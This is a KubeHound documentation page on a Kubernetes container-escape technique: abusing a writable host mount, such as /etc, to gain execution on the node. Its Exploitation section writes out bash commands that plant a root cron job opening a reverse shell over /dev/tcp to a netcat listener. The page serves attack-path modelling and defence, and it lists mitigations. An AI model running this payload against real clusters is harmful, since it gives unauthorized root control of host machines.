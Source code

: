 ```yaml
---
title: EXPLOIT_HOST_WRITE
---
```


<!--
id: EXPLOIT_HOST_WRITE
name: "Container escape: Write to sensitive host mount"
mitreAttackTechnique: T1611 - Escape to host
mitreAttackTactic: TA0004 - Privilege escalation
-->

# EXPLOIT_HOST_WRITE

| Source                                | Destination                 | MITRE ATT&CK                                                        |
| ------------------------------------- | --------------------------- | ------------------------------------------------------------------- |
| [Container](../entities/container.md) | [Node](../entities/node.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

Exploit an arbitrary write from a sensitive host path mounted into the container to gain execution on the host.

## Details

If a sensitive host directory is mounted in a container with write permissions there are a huge variety of techniques to achieve execution within a container. Given the array of techniques available we choose to assume that any writeable mount in a container is exploitable unless it corresponds to an entry in the ["known-good" list](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/exploit_host_write.go#:~:text=SafeWriteMountList) of mounts. For illustration purposes we will consider an escape to host via creating a cron job to launch a reverse shell as the host's superuser if the host `/etc` directory is mounted with write permissions.

## Prerequisites

Execution within a container with a sensitive host directory mounted with write permissions.

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setup/test-cluster/attacks/EXPLOIT_HOST_WRITE.yaml).

## Checks

Check for interesting mounted volumes in the container as decribed in [VOLUME_DISCOVER](./VOLUME_DISCOVER.md#checks)

## Exploitation

Assuming the `/etc/cron.d` directory or any parent is mounted with write access, we can achieve execution on the host as follows. First, resolve the container ip address:

```bash
CONTAINER_ADDRESS=$(ifconfig eth0  | grep inet | cut -d: -f2 | awk '{ print $2}')
```

Then, create a cronjob to trigger a reverse shell connection from the host to our container:

```bash
echo -n "* * * * * root /bin/bash -c '/bin/bash -c echo \"\"; echo \"hello from host! " > /host-etc/cron.d/breakout
echo -n "$" >> /host-etc/cron.d/breakout
echo -n "(hostname) " >> /host-etc/cron.d/breakout
echo -n "$" >> /host-etc/cron.d/breakout
echo "(id)\" >& /dev/tcp/${CONTAINER_ADDRESS}/1337 0>&1'" >> /host-etc/cron.d/breakout
netcat -l -p 1337 2>&1
```

## Defences

### Monitoring

+ Leverage cloud workload security solutions to monitor for malicious activity on the host

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount of `/` or other sensitive locations.

### Least Privilege

Avoid running containers as the `root` user. Enforce running as an unprivileged user account using the `runAsNonRoot` setting inside `securityContext` (or explicitly setting `runAsUser` to an unprivileged user). Additionally, ensure that `allowPrivilegeEscalation: false` is set in `securityContext` to prevent a container running as an unprivileged user from being able to escalate to running as the `root` user.

## Calculation

+ [ExploitHostWrite](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/exploit_host_write.go)

## References:

+ [Bad Pods: Kubernetes Pod Privilege Escalation](https://bishopfox.com/blog/kubernetes-pod-privilege-escalation)
+ [7 Ways to Escape a Container](https://www.panoptica.app/research/7-ways-to-escape-a-container)
+ [Atomic Red Team T1611](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1611/T1611.md)
